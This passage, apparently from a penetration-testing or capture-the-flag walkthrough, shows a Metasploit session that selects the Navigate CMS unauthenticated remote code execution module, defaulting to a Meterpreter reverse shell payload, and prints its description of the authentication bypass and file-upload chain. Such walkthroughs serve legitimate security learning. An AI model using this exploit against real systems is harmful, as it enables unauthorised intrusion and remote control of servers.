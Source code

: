The exploit has been found and all I have to do now is indicate that I want to use exploit number 3.

~~~
msf6 > use 3
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(multi/http/navigate_cms_rce) > info

       Name: Navigate CMS Unauthenticated Remote Code Execution
     Module: exploit/multi/http/navigate_cms_rce
   Platform: PHP
       Arch: php
 Privileged: No
    License: Metasploit Framework License (BSD)
       Rank: Excellent
  Disclosed: 2018-09-26

Provided by:
  Pyriphlegethon

Available targets:
  Id  Name
  --  ----
  0   Automatic

Check supported:
  Yes

Basic options:
  Name       Current Setting  Required  Description
  ----       ---------------  --------  -----------
  Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOSTS                      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
  RPORT      80               yes       The target port (TCP)
  SSL        false            no        Negotiate SSL/TLS for outgoing connections
  TARGETURI  /navigate/       yes       Base Navigate CMS directory path
  VHOST                       no        HTTP server virtual host

Payload information:

Description:
  This module exploits insufficient sanitization in the 
  database::protect method, of Navigate CMS versions 2.8 and prior, to 
  bypass authentication. The module then uses a path traversal 
  vulnerability in navigate_upload.php that allows authenticated users 
  to upload PHP files to arbitrary locations. Together these 
  vulnerabilities allow an unauthenticated attacker to execute 
  arbitrary PHP code remotely. This module was tested against Navigate 
  CMS 2.8.

References:
  https://nvd.nist.gov/vuln/detail/CVE-2018-17552
  https://nvd.nist.gov/vuln/detail/CVE-2018-17553
~~~
The exploit is selected and now I would like to see which options can be configured.
